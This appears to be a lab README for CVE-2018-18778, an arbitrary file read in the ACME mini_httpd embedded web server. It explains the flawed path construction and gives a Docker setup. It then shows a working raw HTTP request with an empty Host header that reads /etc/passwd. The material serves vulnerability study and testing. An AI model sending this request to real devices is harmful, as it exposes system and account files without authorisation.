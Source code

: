 # ACME mini_httpd Arbitrary File Read (CVE-2018-18778)

[中文版本(Chinese version)](README.zh-cn.md)

ACME mini_httpd is a tiny HTTP server that maintains a certain level of performance (about 90% of Apache) while consuming minimal system resources. Therefore, it is widely used as an embedded server in various IoT devices (routers, switches, cameras, etc.). Devices from manufacturers including Huawei, zyxel, Hikvision, and Raspberry Pi have used the Mini_httpd component.

When mini_httpd is running in virtual host mode, user requests to `http://HOST/FILE` will access the `HOST/FILE` file in the current directory.

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

Looking at the code above, the analysis is as follows:

- When HOST=`example.com` and FILE=`index.html`, the above statement results in `example.com/index.html`, and the file is read normally.
- When HOST is empty and FILE=`etc/passwd`, the above statement results in `/etc/passwd`.

The latter is treated as an absolute path, thus reading `/etc/passwd`, causing an arbitrary file read vulnerability.

Reference:

- https://nvd.nist.gov/vuln/detail/CVE-2018-18778
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2018/CVE-2018-18778.yaml

## Environment Setup

Execute the following command to start mini_httpd 1.29:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to see the web page.

## Vulnerability Reproduction

Send a request with an empty Host header and the absolute file path as the PATH value:

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Successfully read the file:

![](1.png)
